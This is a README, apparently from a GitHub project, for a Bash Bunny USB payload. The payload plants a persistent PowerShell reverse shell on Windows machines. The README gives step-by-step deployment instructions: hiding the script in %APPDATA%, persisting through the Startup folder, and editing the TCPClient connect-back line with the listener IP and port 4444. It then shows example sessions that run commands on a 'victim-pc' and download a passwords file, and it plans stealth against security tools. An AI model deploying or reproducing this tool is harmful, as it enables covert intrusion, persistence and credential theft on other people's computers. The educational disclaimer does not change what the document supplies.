 # Persistent Reverse Shell w/ Terminal Listener UI

**Author:** CyberJulian  
**Category:** Network  
**Target OS:** Windows 10, 11  
**Attack Modes:** HID, STORAGE 

---

## ⚠️ Disclaimer  
This project is intended for **educational and authorized testing purposes only**. Unauthorized use of this software is strictly prohibited.

---

## Overview  
This **Bash Bunny payload** deploys a **persistent reverse shell** on a Windows target, enabling remote access via a feature-rich terminal interface. The script runs on system startup, ensuring continuous reconnection even after reboots.

## Features  
✅ **Persistent Connection** – Automatically reconnects on system startup.  
✅ **Stealthy Execution** – Runs in the background from a hidden directory.  
✅ **Command Execution** – Executes shell commands remotely and returns output.  
✅ **File Download** – Transfer files from the target system to the attacker machine.  
✅ **Interactive Terminal UI** – Enhanced console interface with status tracking.  
✅ **Paged Output** – Easily navigate through large command outputs.  
✅ **Automatic Deployment** – Installs via Bash Bunny keystroke injection.  

---

## How It Works

### **1️⃣ Execution via Bash Bunny**  
- The Bash Bunny injects keystrokes to **run a PowerShell command** that:  
  - Copies the reverse shell script to a **hidden directory** (`%APPDATA%\HiddenFolder`).  
  - Creates a **batch script** in the Windows **Startup folder** for persistence.  

### **2️⃣ Persistent Connection Attempt**  
- The reverse shell script **loops continuously**, trying to connect to the **designated listener IP and port**.  
- If the connection is lost, the script **retries every 5 seconds** until successful.  
- If the system reboots, the **Startup script automatically restarts the process**.

### **3️⃣ Remote Command Execution**  
- Once connected, the target device **listens for commands** from the remote listener.
- The session remains active until manually terminated.
  - To **fully terminate the script**, type "exit". This will **completely stop execution** and close the connection.
   - You'd have to wait for the computer to reboot in order to connect once more
  - To stop the connection while **keeping the script running on loop**, enter Control+C

---

## Setup Instructions

### **🔹 Listener (Attacker Machine)**
1. Start the listener on your machine:
   ```bash
   python3 listener.py
   ```
2. When prompted, enter your desired port (port 4444 is default)
3. The terminal UI will appear showing:
   - Connection status and information
   - Command history and output
   - Interactive shell prompt

### **🔹 Listener Interface Features**
- **Visual Status Tracking** – See connection status and client details at a glance
- **Command History** – View previously executed commands and their outputs
- **Paged Output** – Large command responses are displayed in easily navigable pages
- **File Downloads** – Use the `download <filepath>` command to transfer files from target to attacker
- **Executable Launcher** – Easily launch executables, batch files, and shortcuts on the target
- **Clean Exit** – Type `exit` to terminate the session (You'll have to wait for the computer to restart if you close with `exit`)
    - Use Control + C to end your connection and keep the program running on the target computer for a later connection

### **🔹 Deployment via Bash Bunny**
1. **Edit reverse.ps1** to set the correct **listener IP address**:
- Open reverse.ps1 and locate this line:
  ```
  $client = New-Object System.Net.Sockets.TCPClient("192.168.1.0", 4444)
  ```  
  - Replace 192.168.1.0 with your listener's IP address.  
  - Replace 4444 with your listener's port, if necessary. 
2. **Copy the payload files** to your Bash Bunny:
   ```
   /payloads/switch1/
   ├── payload.txt
   ├── setup_reverse_shell.ps1
   ├── reverse.ps1
   ```
3. **Insert the Bash Bunny into the target Windows machine.**
4. The payload will:
   - Copy the reverse shell script to a hidden directory.
   - Create a **Startup entry** to ensure persistence.
   - Initiate the first connection attempt.

---

## Payload Breakdown

### **`payload.txt` (Main Bash Bunny Script)**
- Configures the Bash Bunny as a **HID & Storage device**.
- Runs the **PowerShell setup script** from the Bash Bunny storage.
- Executes the **reverse shell script** from its new hidden location.

### **`setup_reverse_shell.ps1` (Persistence Setup)**
- Copies `reverse.ps1` to a hidden directory.
- Creates a **Startup script** in the Windows **Startup folder**.
- Ensures the reverse shell script runs on every system boot.

### **`reverse.ps1` (Reverse Shell Loop)**
- **Attempts to connect** to the attacker's listener IP & port.
- **Executes received commands** and returns output.
- **Loops indefinitely**, retrying if disconnected (every 5 seconds).

### **`listener.py` (Terminal UI Listener)**
- **Provides an interactive terminal interface** for the attacker.
- **Processes and displays** command outputs in a clean format.
- **Handles file transfers** from the target system.
- **Manages connection status** and provides visual feedback.

---

## Usage Examples

### **Basic Commands**
```
Shell> whoami
victim-pc\user

Shell> systeminfo | findstr OS
OS Name:                   Microsoft Windows 11 Home
OS Version:                10.0.22621 N/A Build 22621
```

### **File Downloads**
```
Shell> download C:\Users\user\Documents\passwords.txt
[+] File saved as: passwords.txt
```

### **Executing Programs**
```
Shell> cmd /c start notepad.exe
[*] Executing program: notepad.exe
[.] No output received.
```

---

### 🎯 **Future Enhancements**
- Force target device to **connect to desired network** if applicable.
- Implement **multi-platform support** (Mac & Linux).
- Add **file upload capability** to send files to the target.
- Improve **stealth** to bypass security tools & clean tracks.
- Add **encryption** for secure communication.
- Implement **session logging** to save command history.

---

## 🏆 Credits  
Created by **CyberJulian**
